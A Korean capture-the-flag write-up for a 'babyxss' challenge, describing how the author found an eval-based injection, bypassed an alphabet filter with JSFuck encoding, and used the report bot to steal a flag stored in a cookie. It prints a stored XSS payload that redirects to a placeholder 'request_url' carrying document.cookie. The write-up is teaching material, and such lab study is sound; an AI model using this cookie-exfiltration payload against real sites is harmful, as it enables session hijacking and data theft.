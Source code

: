 <h1>1. 웹페이지 접속</h1>
 

![image](./image/babyxss2.png)
 

대상 웹사이트에 접속하였을 때의 메인화면이다. Baby's music, Saved, Go to Report 세가지 메뉴가 존재한다.

 

먼저 Baby's music 메뉴에 접근해보았을 때 메뉴는 다음과 같다.

 

![image](./image/babyxss3.png)
 

입력할 수 있는 입력창과 확인 버튼 그리고 save 버튼이 존재하였으며 일단 임의의 문자열 입력 후 확인 버튼을 클릭해보았다.

 

![image](./image/babyxss4.png)

 

nope! 이라는 메시지가 출력되었다.

 

![image](./image/babyxss5.png)

 

임의의 숫자를 입력 후 확인 버튼 클릭 시 입력한 숫자가 포함된 문자열이 출력되는 것을 확인하였으며 save 버튼 클릭 시 id를 발급받을 수 있었다.

 

다음은 Saved 메뉴에 접근해보았다.

 

![image](./image/babyxss6.png)

 

?id= 라는 문자열이 출력되었다. ?가 붙어있는 것을 보고 파라미터인 것 같다는 생각이 들어 url에 파라미터를 입력해보았다.

 

![image](./image/babyxss7.png)
 

id 파라미터에 방금 발급받았던 id 값을 입력하였더니 사용자가 입력한 값이 포함되어 저장된 내용이 출력되었다.

 

다음은 Go to Report 메뉴에 접근해보았다.

 
![image](./image/babyxss8.png)

 

입력창과 제출 버튼이 있어 임의의 문자열 입력 후 제출 버튼을 클릭해보았다.

 

![image](./image/babyxss9.png)
 

Reported! 메시지가 출력되었는데 어떤 기능이 실행되는지는 알 수 없었다.

 

코드 분석
 

대상 웹사이트 메인
코드 분석 (1)
 

cookies 변수에 FLAG 가 저장되어있는 것을 알 수 있다.

 

대상 웹사이트 메인
코드 분석 (2)
 

이 코드를 통해 Go to Report 메뉴의 기능을 확인할 수 있었다. cookies 변수에 저장된 값을 이용하여 쿠키를 세팅하며 요청 패킷의 url 파라미터를 통해 입력받은 url로 서버에서 접근하게 된다는 것을 알 수 있다. 프록시를 통해 확인한 url 파라미터 값은 다음과 같다.

 

대상 웹사이트 메인
코드 분석 (3)
 

 

다음으로 주목할 부분은 Baby's music 메뉴의 소스코드이다.

 

대상 웹사이트 메인
코드 분석 (4)
 

입력 받은 값을 정규 표현식을 통해 필터링하는 부분이 존재하며 필터링되지 않는다면 eval 함수의 인자값에 사용자가 입력한 값이 포함되는 것을 확인하였다. 이를 통해 악의적인 스크립트를 삽입할 수 있을 것이라고 생각하였다.

 

공격 시나리오
 

웹사이트의 메뉴를 확인하고 코드를 분석한 결과 다음과 같은 시나리오를 생각해보았다.

 

1. Baby's music 메뉴에서 악의적인 스크립트를 삽입한 후 save 한다.

 

2. Go to Report 메뉴에서 saved?id='save_id' 를 입력하여 서버 측에서 악의적인 스크립트가 삽입된 페이지에 접근하도록 하여 쿠키를 탈취한다.

 

 

공격 실행
 

1) Baby's music 메뉴에서 악의적인 스크립트를 삽입한 후 save 한다.

 

Baby's music 메뉴에서 다음과 같은 스크립트를 삽입하고자 한다.

 


',location.href="request_url/"+document.cookie,'
 

스크립트의 앞부분에 ', 과 뒷부분에는 ,' 가 존재하는 이유는 Baby's music 에서 입력한 값은 eval 함수의 인자에 삽입되기 때문이다.

 


eval(`msg.innerHTML='This is recommended album for ${age}-year-old.'`);
 

 

입력한 값이 ${age} 에 삽입되게 되는데 악의적인 스크립트가 삽입된 결과는 다음과 같다.

 


eval(`msg.innerHTML='This is recommended album for ',location.href="request_url/"+document.cookie,'-year-old.'`);
 

 

이렇게 삽입되면 eval 함수를 통해 삽입된 악의적인 스크립트가 실행된다.

 

하지만 알파벳은 필터링되어 스크립트가 삽입될 수 없으므로 다른 방법으로 삽입해야한다.

 

대상 웹사이트 메인
공격 실행 (1)
 

삽입할 스크립트를 JSFuck 기법으로 인코딩하여 삽입한다.

 

먼저 임의의 숫자를 입력 후 save 버튼을 클릭한다.

 

대상 웹사이트 메인
공격 실행 (2)
 

프록시 도구에서 스크립트를 삽입한다.

 

대상 웹사이트 메인
공격 실행 (3)
 

발급받은 id 값을 확인한다.

대상 웹사이트 메인
공격 실행 (4)
 

Go to Report 메뉴로 이동하여 saved?id='발급받은 id' 를 입력 후 제출 버튼을 클릭한다.

 

대상 웹사이트 메인
공격 실행 (5)
 

 

쿠키 탈취에 성공하여 flag를 확인하였다.

 

대상 웹사이트 메인
공격 실행 (6)
